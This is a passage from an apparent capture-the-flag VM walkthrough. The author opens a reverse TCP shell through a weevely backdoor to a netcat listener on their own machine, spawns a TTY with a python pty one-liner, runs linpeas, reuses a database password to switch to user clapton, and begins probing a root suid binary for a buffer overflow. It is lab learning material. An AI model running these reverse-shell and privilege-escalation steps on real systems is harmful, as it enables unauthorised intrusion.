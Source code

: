 But for comfortably running linpeas, or even run `su` command, a TTY shell is required,
which is unfortunatly not the case with weevely.

#### Spawn a TTY shell

- on my hacking machine, `nc -lnvp 10000` : connection opening on 10000
- on VM, use another`weevely` command : `:backdoor_reversetcp kali 10000`

Now, several methods exists for spawning shell with TTY, I used the latter (to be runned on VM) :

`python -c 'import pty; pty.spawn("/bin/sh")'`

Followed by `export TERM=xterm` and now I have a "real" shell;


#### Linpeas.sh
I run it : `./linpeas.sh > /tmp/results.log`
Here again, nothing seemed relevant in report. It suggests to try user = password.

`~ su clapton` with "clapton" as password failed.

I tried then with the database password (found in `/var/www/html/include/base.inc.php`)

Bingo :) ! got to `/home/clapton` and flag `user.txt`.

## Getting root

Home directory content :

```
clapton@debian:~$ ls -la
ls -la
total 24
dr-x------ 2 clapton clapton 4096 May  9 17:13 .
drwxr-xr-x 3 root    root    4096 May  9 16:57 ..
-rwsr-xr-x 1 root    root    5150 Sep 22  2015 input
-rwxr-xr-x 1 root    root     201 May  9 17:15 note.txt
-rw-r--r-- 1 clapton clapton   32 May  9 17:21 user.txt
```

`note.txt` leads to buffer overflow (this VM is tagged as easy...). I spotted that it is suid, and owned by root.
So __any execution will use root privileges instead of the current user ones__.

### Buffer overflow

Basic calls :
```
clapton@debian:~$ ./input
./input
Syntax: ./input <input string>
```

There is a parameter, that must be put in buffer, that can be overflowed.

```
clapton@debian:~$ ./input 1111
./input 1111
```
